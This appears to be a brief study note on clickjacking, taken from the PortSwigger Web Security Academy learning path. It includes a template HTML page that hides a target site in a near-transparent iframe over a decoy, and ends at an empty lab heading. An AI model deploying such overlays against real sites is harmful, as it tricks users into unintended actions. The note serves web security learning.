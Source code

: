 ```yaml
---
description: https://portswigger.net/web-security/learning-paths/clickjacking
---
```


# 🐔 Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

example of clickjacking website:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

### Lab: Basic clickjacking with CSRF token protection

